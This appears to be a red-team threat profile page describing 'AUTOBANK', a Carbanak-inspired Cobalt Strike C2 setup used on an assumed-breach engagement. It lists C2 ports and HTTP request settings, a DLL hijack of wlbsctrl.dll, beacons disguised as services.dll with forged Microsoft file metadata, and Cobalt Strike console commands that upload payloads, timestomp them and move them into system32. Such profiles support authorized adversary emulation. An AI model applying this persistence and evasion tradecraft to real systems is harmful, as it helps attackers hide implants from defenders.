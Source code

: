 ```yaml
---
id: autobank
title: Threat Profile - AUTOBANK
description: >
  AUTOBANK threat profile example
---
```


# Threat Profile (AUTOBANK)

:::tip
A modified version of this profile was used on an assumed breach engagement. This profile is provide as an example to show details that supported a real engagement. 
:::

## Description

C2 threat inspired by the Carbanak APT malware.  It uses DNS and HTTP for C2 communications.

>Reference: http://krebsonsecurity.com/wp-content/uploads/2015/02/Carbanak_APT_eng.pdf

## Characteristics

 - C2 Backend: CobaltStrike 3
 - Port(s): 53, 445, 80 (DNS, SMB, HTTP)
 - C2 communication using DNS, HTTPS and SMB Traffic
 - IP communication using DNS hostnames

Cobalt Strike HTTP Request Profile:

 - UserAgent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; WOW64; Trident/6.0)"
 - GET: /favicon
 - POST /token

## System Modifications

### Files

HTTPS PAYLOAD: 

 - Hijacked DLL: `c:\windows\system32\wlbsctrl.dll `
 - HTTPS Beacon: `c:\windows\system32\services.dll `
 - SMB   Beacon: `c:\windows\system32\services.dll `

*NOTE: using the same dll name for each beacon type.

Binary modified using a resource hacker to look similar to other Windows files

   - File Description: Services
   - File Version: 6.1.7601.17514
   - Product Name: Internet Explorer
   - Product Version: 6.1.7601.17514
   - Copyright: (c) Microsoft Corporation. All rights reserved
   - Date Modified: 7/13/2009 08:41:22 PM

## Registry
 
 - None

## Window Service

 - None

## WMI

 - None

-----------------------------------------------------

## Deployment Steps

1. Create CobaltStrike C2 Profile
2. Build payloads using profile
3. build 32 bit DLL files - named services.dll
4. Use a Resource Hacker utility to modify binaries to match File Attributes
5. Deploy dlls to target system
6. Verify time matches surrounding files (TimeStomp if needed)

## Persistence Steps (via CobaltStrike Beacon Console)

```
cd c:\windows\temp
upload /data/5-PAYLOADS/wlbsctrl.dll
upload /data/5-PAYLOADS/services1.dll (DNS Beacon)
upload /data/5-PAYLOADS/services2.dll (SMB Beacon)

shell mv services(1/2).dll services.dll

powershell-import /data/PAYLOADS/Set-FileTimeStamps.ps1
powershell Set-FileTimeStamps c:\windows\temp\wlbsctrl.dll "7/13/2009 08:41:22 PM"
powershell Set-FileTimeStamps c:\windows\temp\services.dll "7/13/2009 08:41:22 PM"

shell move c:\windows\temp\wlbsctrl.dll c:\windows\system32
shell move c:\windows\temp\services.dll c:\windows\system32

```